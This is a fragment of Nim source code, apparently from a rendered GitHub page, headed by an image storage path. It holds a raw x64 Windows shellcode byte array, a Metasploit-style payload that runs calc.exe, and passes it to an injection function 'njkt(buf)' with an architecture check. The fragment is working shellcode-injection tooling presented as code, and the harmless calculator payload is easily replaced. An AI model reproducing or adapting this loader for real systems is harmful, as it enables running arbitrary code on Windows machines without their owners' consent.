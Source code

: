 ```Nim

0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,

0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,

0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,

0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,

0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,

0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,

0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,

0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,

0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,

0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,

0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,

0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,

0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,

0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,

0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,

0x89,0xda,0xff,0xd5,0x43,0x3a,0x5c,0x57,0x69,0x6e,0x64,0x6f,

0x77,0x73,0x5c,0x53,0x79,0x73,0x74,0x65,0x6d,0x33,0x32,0x5c,

0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00]

njkt(buf)

  

else:

echo "[-] Invalid architecture"
```